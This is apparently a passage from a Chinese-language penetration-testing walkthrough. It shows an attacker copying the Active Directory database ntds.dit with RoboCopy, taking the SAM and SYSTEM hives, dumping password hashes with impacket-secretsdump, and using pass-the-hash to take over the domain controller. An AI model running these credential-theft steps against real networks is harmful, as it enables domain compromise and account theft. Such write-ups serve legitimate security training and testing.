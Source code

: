 [![](assets/1706233449-256ea471fdc94596c5d8d3d8fb5f8755.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124143959-651a13c6-ba83-1.png)

复制到当前目录

```plain
RoboCopy /b z:\windows\ntds . ntds.dit
```

[![](assets/1706233449-21b5b934740607c29adf68c7dc53b644.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124144005-68baf950-ba83-1.png)

下载 sam 和 system

[![](assets/1706233449-3feaf16830c4279e963b3392424b7e2f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124144011-6c333a3e-ba83-1.png)

接下来进行解密

```plain
impacket-secretsdump -ntds ntds.dit -system system local
```

[![](assets/1706233449-643c7195c2ba13b2708bd8c4246ad862.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124144017-701904b2-ba83-1.png)

PTH 拿下域控

[![](assets/1706233449-c03e4ed3b1e3f441bd13c10fe8daa0fc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240124144023-73808ee0-ba83-1.png)
